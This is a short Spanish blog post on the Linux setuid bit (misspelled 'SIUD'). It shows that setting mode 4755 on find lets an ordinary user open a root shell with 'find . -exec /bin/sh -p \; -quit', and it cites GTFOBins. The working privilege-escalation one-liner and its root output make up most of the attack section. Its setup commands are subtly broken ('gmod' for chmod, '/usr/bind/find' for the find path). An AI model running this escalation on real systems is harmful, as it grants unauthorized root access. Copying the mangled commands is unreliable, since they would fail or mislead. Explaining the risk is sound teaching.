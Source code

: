 ```yaml
---
date: 2021-09-07T00:22:05.000Z
layout: post
comments: true
title: Permisos SIUD
subtitle: 'y su explotación'
description: >-
image: >-
  http://imgfz.com/i/Q8pIHbz.png
optimized_image: >-
  http://imgfz.com/i/Q8pIHbz.png
category: ciberseguridad
tags:
  - permisos
  - linux
  - GNU
  - ciberseguridad
  - hacking
author: Felipe Canales Cayuqueo
paginate: true
---
```

Este tipo de permiso establece el ID de usuario del propietario, el cual se consigue agregando un 4 al momento de otorgar los permisos:
```
Si antes se realizaba
root> gmod 755 /usr/bind/find
[-rwxr-xr-x]

Ahora si quieres agregar el permiso SIUD, se debe colocar de la siguiente forma
root> gmod 4755 /usr/bind/find
[-rwsr-xr-x]

```

Ahora en este caso se lo asignamos a ```find```, el problema de esto es que esto es vulnerable pues si aplicamos el siguiente comando, podremos obtener acceso como root:

```
user@user:~$ find . -exec /bin/sh -p \; -quit
# whoami
root

```
>https://gtfobins.github.io/gtfobins/find/

Esto pasa debido a que a user se le asigna de manera temporal el permiso de root (propietario), y en el caso mostrado se abre una shell aprovechando la vulnerabilidad.
